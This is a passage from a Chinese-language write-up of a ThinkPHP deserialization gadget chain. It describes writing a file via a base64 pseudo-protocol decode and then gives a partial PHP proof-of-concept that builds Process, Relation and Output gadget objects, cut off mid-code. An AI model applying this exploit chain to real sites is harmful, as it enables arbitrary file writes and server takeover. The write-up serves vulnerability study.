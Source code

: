      return $filename;
 `}`
</code></pre>
<p>通过构造base64字符串，再进过伪协议解码后成功写入文件。具体的分析可以参考[https://xz.aliyun.com/t/7310。](https://xz.aliyun.com/t/7310%E3%80%82)<br>
结果展示：<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01870d8255f7077976.png)<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t013d73469f1f177d15.png)<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0196e2ca357e004b02.png)</p>
</li>
poc

```
&lt;?php
namespace think;


class Process
`{`
    private $processPipes;

    private $status;

    private $processInformation;
    public function  __construct()`{`
        $this-&gt;processInformation['running']=true;
        $this-&gt;status=3;
        $this-&gt;processPipes=new \think\model\Relation();
    `}`

`}`
namespace think\model;

use think\console\Output;

class Relation
`{`
    protected $query;
    const HAS_ONE          = 1;
    const HAS_MANY         = 2;
    const HAS_MANY_THROUGH = 5;
    const BELONGS_TO       = 3;
    const BELONGS_TO_MANY  = 4;
    protected $type=2;
    protected $where=1;
    public function __construct()
    `{`
        $this-&gt;query=new Output();
    `}`
`}`


namespace think\console;
class Output`{`
    protected $styles = [
        'info',
        'error',
        'comment',
        'question',
        'highlight',
```